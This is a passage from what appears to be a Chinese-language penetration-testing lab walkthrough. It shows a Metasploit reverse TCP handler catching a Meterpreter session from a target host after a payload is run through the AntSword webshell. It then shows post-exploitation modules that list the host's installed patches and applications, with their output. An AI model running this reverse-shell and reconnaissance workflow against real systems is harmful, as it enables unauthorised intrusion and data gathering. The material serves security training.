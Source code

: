 ```bash

[*] Started reverse TCP handler on 192.168.220.137:9999 

```



到蚁剑中运行

![image-20220811184743952](./st1.assets/image-20220811184743952.png)

Kali监听响应：

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.220.137:9999 
[*] Sending stage (200262 bytes) to 192.168.220.138
[*] Meterpreter session 2 opened (192.168.220.137:9999 -> 192.168.220.138:1237 ) at 2022-08-11 06:45:39 -0400

meterpreter > 
```



收集补丁信息

```
meterpreter > run post/windows/gather/enum_patches

[*] Patch list saved to /root/.msf4/loot/20220811064922_default_192.168.220.138_enum_patches_752941.txt
[+] KB2534111 installed on 8/25/2019
[+] KB2999226 installed on 9/15/2019
[+] KB958488 installed on 8/29/2019
[+] KB976902 installed on 11/21/2010
```



收集主机内软件安装信息

```
meterpreter > run post/windows/gather/enum_applications

[*] Enumerating applications installed on STU1

Installed Applications
======================

 Name                                                                Version
 ----                                                                -------
 Everything 1.4.1.877 (x64)                                          1.4.1.877 (x64)
 Microsoft .NET Framework 4 Client Profile                           4.0.30319
 Microsoft .NET Framework 4 Client Profile                           4.0.30319
 Microsoft .NET Framework 4 Extended                                 4.0.30319
 Microsoft .NET Framework 4 Extended                                 4.0.30319
 Microsoft Visual C++ 2008 Redistributable - x64 9.0.30729.6161      9.0.30729.6161
 Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.4148      9.0.30729.4148
 Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.6161      9.0.30729.6161
 Microsoft Visual C++ 2013 Redistributable (x86) - 12.0.21005        12.0.21005.1
 Microsoft Visual C++ 2013 x86 Additional Runtime - 12.0.21005       12.0.21005
 Microsoft Visual C++ 2013 x86 Minimum Runtime - 12.0.21005          12.0.21005
 Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.20.27508  14.20.27508.1
```